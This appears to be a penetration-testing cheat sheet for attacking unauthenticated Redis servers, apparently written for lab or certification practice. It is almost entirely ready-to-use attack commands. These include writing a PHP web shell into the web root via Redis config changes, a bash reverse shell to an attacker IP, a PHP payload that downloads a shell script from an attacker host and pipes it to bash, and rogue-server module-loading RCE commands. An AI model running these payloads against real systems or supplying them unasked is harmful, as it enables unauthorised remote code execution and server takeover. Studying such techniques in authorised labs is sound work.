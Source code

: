 # Redis

```
redis-cli -h $IP
```

## Config File Locations

```
/etc/apache2/sites-available/000-default.conf
/etc/systemd/system/redis.service
/etc/redis/redis.conf
```

```
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

#### Another payload

```
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.5/80 0>&1
```

```
set test "<?php system('curl http://192.168.45.5:9001/shell.sh | bash'); ?>"
```

## Redis Rogue Server

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

```
python redis-rogue-server.py --rhost 192.168.177.176 --lhost=192.168.49.177 --lport=53
```

{% embed url="https://github.com/Ridter/redis-rce" %}

Compile the exp.so file from [here](https://github.com/n0b0dyCN/redis-rogue-server)

```
python redis-rce.py -r 192.168.177.176 -L 192.168.49.177 -P 443 -f exp.so
```

## Resources

{% embed url="https://www.digitalocean.com/community/tutorials/how-to-install-and-configure-redis-on-ubuntu-16-04" %}
